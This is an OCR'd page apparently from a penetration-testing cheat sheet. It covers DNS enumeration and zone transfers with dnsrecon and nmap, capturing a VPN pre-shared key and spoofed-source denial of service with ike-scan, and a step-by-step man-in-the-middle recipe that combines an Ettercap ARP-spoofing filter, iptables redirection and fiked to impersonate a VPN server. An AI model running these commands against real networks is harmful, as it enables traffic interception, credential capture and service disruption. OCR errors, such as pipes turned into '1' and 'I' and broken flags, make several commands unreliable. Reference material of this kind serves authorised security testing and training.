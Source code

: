 
DNSREcoN

Reverse lookup for IP range:
./dnsrecon.rb -t rvs -i 192.1.1.1,192.1.1.20

Retrieve standard DNS records:
./dnsrecon.rb -t std -d domain.com

Enumerate subdomains:
./dnsrecon.rb -t brt -d domain.com -w hosts.txt

DNS zone transfer:
./dnsrecon -d domain.com -t axfr


NMAP REVERSE DNS LOOKUP AND OUTPUT PARSER

nmap -R -sL -Pn -dns-servers dns svr ip	range 1 awk 'f1f(($1" "$2"
"$3)=="Nmap scan report")print$5" "$6}' 1 sed 's/(//g' I sed 's/)//g' dns.txt


VPN

WRITE PSK TO FILE

ike-scan -M -A vpn_i	-P file


DoS VPN SERVER

ike-scan -A -t 1 --sourceip= spoof_ip	dst_ip


FIKED - FAKE VPN SERVER

Must know the VPN group name and pre-shared key
1. Ettercap filter to drop IPSEC traffic (UDP port 500)
if(ip.proto == UDP && udp.src == 500){
kill();
drop();
msg(""UDP packet dropped");
}
2. Compile filter
etterfilter udpdrop.filter -o udpdrop.ef
3. Start Ettercap and drop all IPSEC traffic #ettercap -T -q -M arp -F udpdrop.ef // //
4. Enable IP Forward
echo "1"	/proc/sys/net/ipv4/ip_forward
5. Configure IPtables to port forward to Piked server
iptables -t nat -A PREROUTING -p udp -I eth0 -d VPN Server IP DNAT - - to Attacking Host IP
iptables -P FORWARD ACCEPT
6. Start Fiked to impersonate the VPN Server
fiked - g vpn gateway ip - k VPN Group Name:Group Pre-Shared Key Stop Ettercap
8. Restart Ettercap without the filter
	ettercap -T -M arp // //


PUTTY


REG KEY TO HAVE PUTTY LOG EVERYTHING (INCLUDING CONVERSATIONS)
